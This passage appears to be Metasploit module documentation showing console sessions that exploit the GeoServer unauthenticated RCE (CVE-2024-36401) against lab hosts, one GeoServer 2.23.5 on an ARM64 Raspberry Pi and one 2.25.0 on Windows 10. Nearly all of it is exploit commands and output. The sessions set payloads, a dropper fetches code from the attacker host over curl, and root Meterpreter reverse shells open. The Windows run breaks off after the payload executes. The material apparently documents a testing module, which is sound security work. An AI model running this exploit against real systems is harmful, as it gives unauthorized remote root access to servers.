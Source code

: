 ```msf
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/opt
meterpreter >
```
###  GeoServer 2.23.5 on ARM64 Raspberry PI-4 Kali Linux 2024.4 - linux/aarch64/meterpreter_reverse_tcp
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/aarch64/meterpreter_reverse_tcp
payload => linux/aarch64/meterpreter_reverse_tcp
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.5
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/680jWmUv1qm
[*] Client 192.168.201.10 (curl/8.5.0) requested /680jWmUv1qm
[*] Sending payload to 192.168.201.10 (curl/8.5.0)
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Meterpreter session 12 opened (192.168.201.8:4444 -> 192.168.201.10:60692) at 2024-07-11 21:04:34 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/usr/share/geoserver
meterpreter >
```
### GeoServer 2.25.0 on x64 Windows 10 (10.0 Build 19045)
```
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 2
target => 2
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.25.0
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
```